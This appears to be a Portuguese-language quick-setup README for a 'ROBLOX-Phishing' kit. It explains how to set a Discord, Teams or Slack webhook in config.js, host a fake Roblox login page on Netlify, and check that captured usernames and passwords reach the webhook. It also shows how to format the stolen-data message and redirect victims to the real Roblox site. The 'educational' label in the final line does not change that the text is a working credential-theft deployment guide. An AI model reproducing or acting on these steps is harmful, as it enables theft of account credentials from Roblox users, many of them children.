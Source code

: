 # ⚡ Configuração Rápida

## 🎯 Passo a Passo em 5 Minutos

### 1. 📝 Configurar Webhook (2 min)

**Opção A - Discord (Recomendado):**
1. Abra o Discord
2. Vá em um canal → Configurações → Integrações → Webhooks
3. Clique em "Novo Webhook"
4. Copie a URL (algo como: `https://discord.com/api/webhooks/123456789/abcdef...`)
5. Abra o arquivo `config.js`
6. Substitua a linha 3:
```javascript
webhookUrl: 'COLE_SUA_URL_AQUI',
```

### 2. 🌐 Hospedar no Netlify (2 min)

1. Acesse [netlify.com](https://netlify.com)
2. Faça login com GitHub
3. Arraste a pasta `ROBLOX-Phishing` para a área de upload
4. Aguarde o deploy (aparecerá um link como `https://random-name.netlify.app`)

### 3. 🧪 Testar (1 min)

1. Acesse o link do Netlify
2. Digite dados de teste (ex: `teste@email.com` / `senha123`)
3. Clique em "Entrar"
4. Verifique se a mensagem chegou no Discord

## 🔧 Configurações Avançadas

### Personalizar Mensagem
Edite no `config.js`:
```javascript
messageFormat: {
    title: '🔐 **Dados Capturados - Roblox Login**',
    fields: [
        '👤 **Usuário:** {username}',
        '🔑 **Senha:** {password}',
        '⏰ **Data/Hora:** {timestamp}',
        // Adicione mais campos aqui
    ]
}
```

### Alterar Redirecionamento
```javascript
redirectUrl: 'https://www.roblox.com/login',
```

### Outros Webhooks

**Microsoft Teams:**
```javascript
webhookUrl: 'https://sua-empresa.webhook.office.com/webhookb2/...',
```

**Slack:**
```javascript
webhookUrl: 'https://hooks.slack.com/services/T00000000/B00000000/...',
```

## 🚨 Solução de Problemas

**Dados não chegam no webhook?**
- Verifique se a URL está correta
- Teste o webhook com um serviço como webhook.site
- Verifique o console do navegador (F12)

**Site não carrega no Netlify?**
- Verifique se todos os arquivos foram enviados
- Confirme se o `index.html` está na raiz

**Formulário não captura dados?**
- O React pode demorar para carregar
- Aumente o `reactLoadDelay` no `config.js`

## 📞 Suporte Rápido

- **Discord não funciona?** Use Teams ou Slack
- **Netlify com erro?** Tente GitHub Pages
- **Script não funciona?** Verifique o console (F12)

---

**✅ Pronto! Seu phishing educativo está funcionando!** 🎓 